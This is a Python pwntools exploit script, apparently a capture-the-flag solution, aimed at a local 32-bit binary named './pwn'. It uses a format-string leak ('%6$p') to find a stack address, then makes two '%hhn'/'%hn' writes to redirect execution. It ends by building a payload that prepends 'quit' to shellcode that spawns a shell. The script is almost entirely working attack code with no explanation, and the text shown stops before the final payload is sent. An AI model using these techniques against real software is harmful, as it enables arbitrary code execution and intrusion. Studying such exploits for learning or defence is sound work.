```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

def duan():
    gdb.attach(p)
    pause()

x64_32 = 0
if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
buf=0x0804A060
pre_ebp=0x080485AD

#aaaa-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
#aaaa-0x8048680-0x4-0x8048507-0x8048685-0x804a000-0xffffce98-0x80485ad-0xf7fb5d60-0x804a000-0xffffcea8-0x80485ea-0xffffcec0-(nil)-(nil)-0xf7e1a647-0xf7fb5000-0xf7fb5000-(nil)

ru('==\n')
sl('%6$p')
ru('0x')
stack_addr=int(r(8),16)-0x28+0x1c
leak('stack_addr:',stack_addr)

#gdb.attach(p)

pl = b'%' + str(stack_addr & 0xff).encode() + b'c%6$hhn' 
pl = pl.ljust(200,b'\x00')
s(pl)
p.recv()
#duan()

pl = b'%' + str(0xa064).encode() + b'c%10$hn' 
pl = pl.ljust(200, b'\x00')
s(pl)
p.recv()
#duan()

shellcode = asm(shellcraft.sh())
pl = b'quit' + shellcode
```
